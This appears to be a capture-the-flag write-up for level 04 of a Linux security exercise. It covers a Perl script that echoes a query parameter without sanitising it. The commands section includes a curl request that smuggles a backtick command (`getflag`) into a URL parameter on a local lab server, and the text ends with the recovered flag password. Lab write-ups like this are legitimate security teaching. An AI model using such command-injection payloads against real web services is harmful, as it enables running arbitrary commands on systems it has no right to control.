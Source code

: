 # LEVEL 04

## 💡 Explanation

In this level we have to:
1. We check the permissions of the file level04: it belongs to the user flag04 and gives permissions to execute as user (as lvl 03).
2. We can see that the script calls to the function `x` and pass as an argument the parameter `x`.
3. Then the script takes the argument as the variable `y` and does an `echo y`
4. We can use the variable to pass the binary `getflag` so it will execute when doing the echo.

## 👾 Commands

```
cat level04.pl
./level04.pl
curl http://localhost:4747
curl http://localhost:4747/?x=lol
curl http://localhost:4747/?x=\`getflag\`
```

## 🔍 Resources

- [Perl language - Functions & Arguments](https://www.tutorialspoint.com/perl/perl_subroutines.htm)

## 🔥 Password
`ne2searoevaevoem4ov4ar8ap`
